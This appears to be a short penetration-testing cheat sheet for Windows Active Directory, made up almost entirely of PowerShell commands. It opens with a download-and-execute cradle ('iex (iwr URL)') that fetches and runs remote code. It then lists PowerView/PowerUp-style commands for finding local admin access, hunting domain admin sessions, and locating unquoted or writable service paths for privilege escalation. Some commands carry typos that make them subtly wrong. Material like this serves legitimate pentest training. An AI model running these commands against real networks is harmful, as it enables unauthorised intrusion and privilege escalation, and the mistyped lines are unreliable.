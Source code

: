 ***Download File***

> ```powershell
> iex (iwr URL)
> ```
>
> 



**Enumeration**



**Local Privs Escalation**

>  Current Domain where current user has local admin access 
>
> > ```powershell
> > Find-LocalAdminAccess -Verbose 
> > 
> > Invoke-CheckLocalAdminAccess
> > ```

>   In case RPC and SMB are blocked 
>
> > ```powershell
> > Find-WMILocalAdminAccess.ps1
> > 
> > Find-PSRemotingLocalAdminAccess.ps1
> > 
> > Invoke-EnumerateLocalAdmin -Verbose  Get-NetComputer then Get-NetLocalGroup
> > ```

> Hunting session for domain admins 

> > ```powershell
> > Invoke-UserHunter
> > 
> > Invoke-UserHunter -Stealth
> > ```

> Hunting Group Users sessions 
>
> > `Inoke-User-Hunter -GroupName "<GroupName>"`

> Confirm Admin Access 
>
> > `Invoke-UserHunter -CheckAcces`

> List unquoted paths 
>
> > `Get-ServiceUnquoted -Verbose` 

> Current user can write to binary path 
>
> > `Get-ModifiableServiceFile -Verbose `
